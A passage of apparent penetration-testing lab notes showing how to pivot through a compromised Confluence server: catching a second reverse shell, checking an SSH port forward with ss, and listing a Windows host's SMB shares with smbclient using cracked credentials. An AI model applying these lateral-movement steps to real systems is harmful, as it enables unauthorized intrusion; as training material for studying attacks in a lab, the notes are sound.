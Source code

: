 Since this reverse shell from `CONFLUENCE01` is now occupied with an open SSH session, we need to catch another reverse shell from `CONFLUENCE01`
+ We can do this by listening on another port and modifying our CVE-2022-26134 payload to return a shell to that port
+ Once we have another reverse shell from CONFLUENCE01, we can confirm that the _ssh_ process we just started from our other shell is listening on 4455 using **ss**:
```
ss -ntplu
```
+ Example output:
```
Netid  State   Recv-Q  Send-Q         Local Address:Port     Peer Address:Port  Process                                                                         
udp    UNCONN  0       0              127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN  0       128                  0.0.0.0:4455          0.0.0.0:*      users:(("ssh",pid=59288,fd=4))
tcp    LISTEN  0       4096           127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN  0       128                  0.0.0.0:22            0.0.0.0:*
tcp    LISTEN  0       128                     [::]:22               [::]:*
tcp    LISTEN  0       10                         *:8090                *:*      users:(("java",pid=1020,fd=44))
tcp    LISTEN  0       1024                       *:8091                *:*      users:(("java",pid=1311,fd=15))
tcp    LISTEN  0       1         [::ffff:127.0.0.1]:8000                *:*      users:(("java",pid=1020,fd=76))
```

It is - great! Connecting to port 4455 on CONFLUENCE01 will now be just like connecting directly to port 445 on 172.16.50.217. We can review the connection flow in the following diagram:
![[Pasted image 20231214161941.png]]

We can now interact with port 4455 on CONFLUENCE01 from our Kali machine
+ Let's start by listing the available shares with **smbclient**'s **-L** option, passing **4455** to the custom port **-p** option, along with the username to the **-U** option and the password to the **--password** option
+ We'll try the credentials we cracked for the _hr_admin_ user from the Confluence database
```
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
```
+ Example output:
```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.50.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```
